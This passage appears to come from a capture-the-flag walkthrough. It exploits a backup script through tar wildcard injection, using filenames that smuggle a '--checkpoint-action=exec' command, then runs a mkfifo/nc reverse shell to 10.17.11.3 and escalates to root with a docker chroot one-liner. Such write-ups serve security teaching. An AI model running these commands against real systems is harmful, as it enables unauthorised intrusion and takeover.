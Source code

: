 So we have to exploit classic tar with wildcard characters exploit.
Hmm lets see.
So let do this.
`echo "" > '--checkpoint=1'`
`echo "" > '--checkpoint-action=exec=sh shell.sh'`

And a shell.sh.
```bash
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.17.11.3 9999 >/tmp/f

```

Lets execute that script`/opt/backups/backup.sh`.
```bash
chmod 777 /opt/backups/backup.tar
sudo -u michael /opt/backups/backup.sh

```
![](Pasted%20image%2020250318175214.png)

And we got the reverse shell in our listenner.
![](Pasted%20image%2020250318175237.png)

Lets try to escalate our priveleges to root.
Lets run `linpeas.sh`.

Hmm interesting.
![](Pasted%20image%2020250318175758.png)
![](Pasted%20image%2020250318180003.png)

Hmm lets try to privelege escalate with docker.
I have done some of the rooms where we need to use docker.
Those are little different but first of all lets try docker privelege escalation with [gtfobins](https://gtfobins.github.io/gtfobins/docker/)
```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
And it worked.
